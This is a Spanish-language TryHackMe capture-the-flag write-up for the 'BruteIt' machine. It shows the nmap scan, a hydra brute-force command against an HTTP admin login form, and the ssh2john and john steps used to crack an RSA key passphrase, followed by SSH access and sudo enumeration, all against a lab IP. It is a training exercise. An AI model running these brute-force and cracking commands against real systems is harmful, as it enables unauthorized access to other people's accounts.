










TryHackMe
Easy
Linux
Hydra
Brute Force
RSA
ssh2john
BruteIt
Panel admin con usuario en codigo fuente; brute force HTTP; clave RSA crackeable; escalada via sudo.
cat4clysm
Herramientas utilizadas
nmap
hydra
john
ssh2john
Scanning
root@kali:~$
nmap -sC -sV -p 22,80 10.10.106.96 -oN targeted
Puerto 80 - Panel Admin

Encontramos panel de administracion en /admin.

El codigo fuente revela el nombre de usuario:

root@kali:~$
hydra -l admin -P /usr/share/wordlists/rockyou.txt -V 10.10.106.96 http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:Username or password invalid"
User Flag - RSA Key + ssh2john
En la pagina admin encontramos la flag de usuario y una clave RSA privada. Crackeamos la frase:
root@kali:~$
python2 /usr/share/john/ssh2john.py id_rsa > rsajohn
john rsajohn --wordlist=/usr/share/wordlists/rockyou.txt
root@kali:~$
ssh john@10.10.106.96 -i id_rsa
Escalada de Privilegios
root@kali:~$
sudo -l
root@kali:~$
john password --wordlist=/usr/share/wordlists/rockyou.txt

Lecciones aprendidas
- El codigo fuente HTML frecuentemente contiene comentarios con nombres de usuario.
- Las claves RSA cifradas pueden crackearse con ssh2john + john si la frase usa palabras comunes.
- sudo -l es el primer comando a ejecutar despues de obtener acceso a un sistema Linux.